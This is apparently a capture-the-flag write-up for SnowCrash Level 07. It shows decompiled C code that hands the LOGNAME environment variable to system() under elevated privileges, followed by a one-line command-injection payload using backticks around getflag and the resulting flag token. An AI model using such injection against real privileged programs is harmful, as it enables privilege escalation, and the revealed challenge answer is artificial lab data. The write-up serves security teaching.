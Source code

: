 ## Level 07

So first of all we have a `level07` executable that we decompiled [here](./level07).

We noticed a `setresuid()` and `setresguid()` combo followed by an execution of `echo` with an env variable.

```c
int32_t main(int32_t argc, char** argv, char** envp)
{
	gid_t eax = getegid();
	uid_t eax_1 = geteuid();
	setresgid(eax, eax, eax);
	setresuid(eax_1, eax_1, eax_1);
	char* var_1c = nullptr;
	asprintf(&var_1c, "/bin/echo %s ", getenv("LOGNAME"));
	return system(var_1c);
}
```

## Exploit

We can use `LOGNAME` to print whatever value we want. We can ask it to gently give us the return value of `getflag` such as:
```bash
level07@SnowCrash:~$ LOGNAME="\`getflag\`"
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

## Token

fiumuikeil55xe9cu4dood66h